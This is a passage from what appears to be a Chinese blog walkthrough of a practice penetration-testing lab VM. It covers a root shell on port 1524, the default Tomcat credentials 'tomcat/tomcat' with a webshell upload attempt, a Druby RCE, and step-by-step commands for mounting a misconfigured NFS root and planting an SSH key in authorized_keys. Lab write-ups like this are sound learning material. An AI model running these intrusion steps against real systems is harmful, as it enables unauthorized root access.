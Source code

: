 ![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1Gr1mSSszcHYWJvb3TicU2657QyH4e89A2gaUEWRUC6Hh5r0hjSwJ15GDOZmM9gsk5JjYIUeJdCYg/640?wx_fmt=png&from=appmsg "")  
#### 8、1524端口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1Gr1mSSszcHYWJvb3TicU26UHiaDIx8qYSNAiaDHENvoomtqs1UxkMwKozAxpxO48Bb5urlULAyhn2g/640?wx_fmt=png&from=appmsg "")  
这里telnet直接连就行telnet 192.168.66.134 1524  
因为这里有个root的shell![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1Gr1mSSszcHYWJvb3TicU26VO6sS3BuO1ibVCC45nu8sU13wpC8UlbIibIVQ0MGYGiaxZkcV6tIH5mibw/640?wx_fmt=png&from=appmsg "")  
这里是因为我们之前用了脏牛提权，但是我们连接这个端口就是root权限，只是账户不同  
#### 9、Tomcat管理台默认口令漏洞（8180端口）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1Gr1mSSszcHYWJvb3TicU26Sdic6kKGZhzhY1YkBS81JUibrxBzOVpWicwYIffyErXtO5wP263JJqcZg/640?wx_fmt=png&from=appmsg "")  
这里一个弱口令，tomcat/tomcat  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1Gr1mSSszcHYWJvb3TicU26icdiajiafUAxNHX4PSnSCC1icULnxBJcwdic0WLEKXIYEmu7NmE9TDcLP4g/640?wx_fmt=png&from=appmsg "")  
这里文件只能传war，应该有一些绕过  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1Gr1mSSszcHYWJvb3TicU26AZ7Kqv4RTfb3NnPjOxHP3TrkjsBq3TSly2SUfuZStElgvNLHAqbMYQ/640?wx_fmt=png&from=appmsg "")  
这里哥斯拉生成的马记得关防火墙 这里我没成功，我也没想用msf，可能是war包执行之类的，没学过，不会。感兴趣自己做，msf随便提权 或者bp抓包改一改也可以  
#### 10、Druby远程代码执行漏洞8787端口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1Gr1mSSszcHYWJvb3TicU26ImaClib6ajHYb7pkCl83MbXnTwkwLujCQWuY8QUCIgDibpYh8hricTbCg/640?wx_fmt=png&from=appmsg "")  
这里是探测出来的 直接msf吧，不装了，11点了不想做了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1Gr1mSSszcHYWJvb3TicU26k4LpAhicib06KicGKSaP3sBuiaovhIrO41ZQyDkXwsOEgy5yW5iaYkS1w8w/640?wx_fmt=png&from=appmsg "")  
这个可能是版本问题，找不到exp了，自行脑补吧  
#### 10、Linux NFS共享目录配置漏洞（22端口）  
  
NFS 服务配置漏洞，赋予了根目录远程可写权限，导致/root/.ssh/authorized_keys可被修改，实现远程ssh无密码登陆。  
- 查看靶机上的nfs服务是否开启：rpcinfo -p ip  
  
- 查看靶机上设置的远程共享目录列表：showmount -e ip  
  
- 生成rsa公钥命令：sshkeygen （一直回车）  
  
- 在渗透机 /tmp目录下新建文件夹xxx，以备后续挂载需求,命令：mkdir /tmp/xxx  
  
- 把靶机ip的根目录挂载到渗透机上新建的/tmp/xxx/目录下；  
  
- 命令：mount –o nolock –t nfs ip:/ /tmp/msftables/  
  
- 把渗透机上生成的公钥追加到靶机的authorized_keys下  
  
- 命令：cat /root/.ssh/id_rsa.pub >> /tmp/xxx/root/.ssh/authorized_keys  
  
- 实现无密码ssh登录:ssh root@ip  
  
总结：这个靶场大量的漏洞，弱口令等，但是偏基础而且适合使用msf，但是真实学漏洞时候尽量不使用msf，因为靶场服务版本太老或者其他原因导致有些服务找不到相关wp只能手搓，但是没必要，当作小甜点吧，提权方法很多，但是没有sql注入文件上传之类的，我虽然很喜欢msf但还是有点抗拒了，希望养成手搓的好习惯。 我这里可能不是很全，但更多是扩大知识面吧加上msf的练手。 后续我也会出更多打靶文章，希望大家关注！谢谢。  
  
  
